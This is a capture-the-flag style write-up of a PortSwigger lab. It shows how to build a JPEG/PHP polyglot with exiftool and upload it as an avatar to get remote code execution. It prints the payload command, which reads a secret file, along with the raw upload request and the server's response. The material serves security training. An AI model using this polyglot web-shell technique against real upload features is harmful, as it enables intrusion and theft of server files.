

repository: 0x3xp10i73r/offsec-vault · page: web-application-pentesting/file-upload/polyglot-web-shell-upload/index.html · generator: mkdocs

---
title: "Lab: Remote code execution via polyglot web shell upload"
description: "Building a JPEG/PHP polyglot with exiftool to defeat content-based image validation and achieve remote code execution."
tags:
  - Web
  - File Upload
  - RCE
  - PortSwigger
---

# Remote code execution via polyglot web shell upload

**Lab:** PortSwigger Web Security Academy — *Remote code execution via polyglot web shell upload* (Practitioner).

This upload feature validates **actual file content** — it checks magic bytes and image structure, not just the declared `Content-Type` or filename extension — which defeats the simpler bypasses used in the other labs in this section. The fix here is to make the file genuinely valid as *both* an image and a PHP script: a **polyglot**.

## 1. Build a JPEG/PHP polyglot with exiftool

Starting from a real JPEG (so magic bytes and image structure are all genuinely valid), `exiftool` writes the PHP payload into the image's **Comment** metadata field rather than into the pixel data:

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" images.jpg -o polyglot.php
```

```text
1 image files created
```

![Kali terminal: exiftool command embedding the PHP payload into the Comment field of images.jpg, output "polyglot.php"](images/polyglot-web-shell/image.png)

The result, `polyglot.php`, still opens and renders as a valid JPEG (so content-based validation accepts it) while carrying the PHP payload inline in a place the image decoder itself ignores — but a PHP interpreter will still find and execute if the file is ever parsed as a script.

## 2. Upload the polyglot file

Uploaded as the avatar, with the real `.php` extension this time (content validation is the control being targeted, not extension filtering):

```http
POST /my-account/avatar HTTP/2
Content-Type: multipart/form-data; boundary=----geckoformboundary457a8ee6b845fe905517d4c14d9afa5f
Content-Length: 5451

------geckoformboundary457a8ee6b845fe905517d4c14d9afa5f
Content-Disposition: form-data; name="avatar"; filename="polyglot.php"
Content-Type: application/octet-stream

ÿØÿàJFIFÿþM<?php echo 'START ' . ...
```

```text
HTTP/2 200 OK
The file avatars/polyglot.php has been uploaded.
```

![Burp Repeater: POST upload of polyglot.php (binary JPEG header followed by the PHP payload), 200 OK "avatars/polyglot.php has been uploaded"](images/polyglot-web-shell/image-1.png)

The upload succeeds because the file's magic bytes (`ÿØÿà` = `FF D8 FF E0`, standard JPEG/JFIF header) and overall structure still pass the server's image validation — the PHP payload is invisible to an image parser, sitting in a metadata field it doesn't execute.
